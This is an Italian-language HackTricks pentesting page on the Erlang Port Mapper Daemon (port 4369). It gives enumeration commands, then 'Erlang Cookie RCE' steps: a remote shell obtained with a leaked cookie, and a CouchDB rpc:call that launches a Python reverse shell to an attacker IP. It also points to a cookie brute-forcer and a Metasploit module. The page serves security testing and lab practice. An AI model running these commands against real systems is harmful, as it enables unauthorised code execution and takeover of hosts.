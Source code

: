 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Informazioni di base

Il **Erlang Port Mapper Daemon (epmd)** funge da coordinatore per le istanze distribuite di Erlang. È responsabile della mappatura dei nomi simbolici dei nodi agli indirizzi delle macchine, assicurando essenzialmente che ogni nome di nodo sia associato a un indirizzo specifico. Questo ruolo di **epmd** è cruciale per l'interazione e la comunicazione senza soluzione di continuità tra i diversi nodi Erlang attraverso una rete.

**Porta predefinita**: 4369
```
PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
```
Questo è usato per impostazione predefinita nelle installazioni di RabbitMQ e CouchDB.

# Enumerazione

## Manuale
```bash
echo -n -e "\x00\x01\x6e" | nc -vn <IP> 4369

#Via Erlang, Download package from here: https://www.erlang-solutions.com/resources/download.html
dpkg -i esl-erlang_23.0-1~ubuntu~xenial_amd64.deb
apt-get install erlang
erl #Once Erlang is installed this will promp an erlang terminal
1> net_adm:names('<HOST>'). #This will return the listen addresses
```
## Automatic
```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>

PORT     STATE SERVICE VERSION
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info:
|   epmd_port: 4369
|   nodes:
|     bigcouch: 11502
|     freeswitch: 8031
|     ecallmgr: 11501
|     kazoo_apps: 11500
|_    kazoo-rabbitmq: 25672
```
# Erlang Cookie RCE

## Remote Connection

Se riesci a **leak the Authentication cookie** sarai in grado di eseguire codice sull'host. Di solito, questo cookie si trova in `~/.erlang.cookie` ed è generato da erlang al primo avvio. Se non modificato o impostato manualmente, è una stringa casuale \[A:Z] con una lunghezza di 20 caratteri.
```bash
greif@baldr ~$ erl -cookie YOURLEAKEDCOOKIE -name test2 -remsh test@target.fqdn
Erlang/OTP 19 [erts-8.1] [source] [64-bit] [async-threads:10]

Eshell V8.1 (abort with ^G)

At last, we can start an erlang shell on the remote system.

(test@target.fqdn)1>os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```
Maggiori informazioni in [https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)\
L'autore condivide anche un programma per bruteforcare il cookie:

{% file src="../.gitbook/assets/epmd_bf-0.1.tar.bz2" %}

## Connessione Locale

In questo caso sfrutteremo CouchDB per elevare i privilegi localmente:
```bash
HOME=/ erl -sname anonymous -setcookie YOURLEAKEDCOOKIE
(anonymous@canape)1> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
(anonymous@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).
```
Esempio tratto da [https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)\
Puoi usare **la macchina Canape HTB per** **praticare** come **sfruttare questa vulnerabilità**.

## Metasploit
```bash
#Metasploit can also exploit this if you know the cookie
msf5> use exploit/multi/misc/erlang_cookie_rce
```
# Shodan

* `port:4369 "alla porta"`


{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
